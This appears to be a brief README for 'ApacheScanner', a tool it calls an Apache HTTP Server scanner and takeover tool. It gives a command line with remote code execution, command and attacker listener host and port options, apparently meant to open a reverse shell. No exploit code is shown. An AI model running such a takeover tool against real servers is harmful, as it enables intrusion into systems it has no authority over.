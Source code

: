 # ApacheScanner
Apache HTTP Server Scanner and takeover tool 

```python3 ApacheScanner.py -u http://serveriphere -p 80 < --rce --cmd "your command here" --lhost <your attacker IP> --lport <Your listening port>``` to run this script

```python3 ApacheScanner.py --h```  for help and see all commands
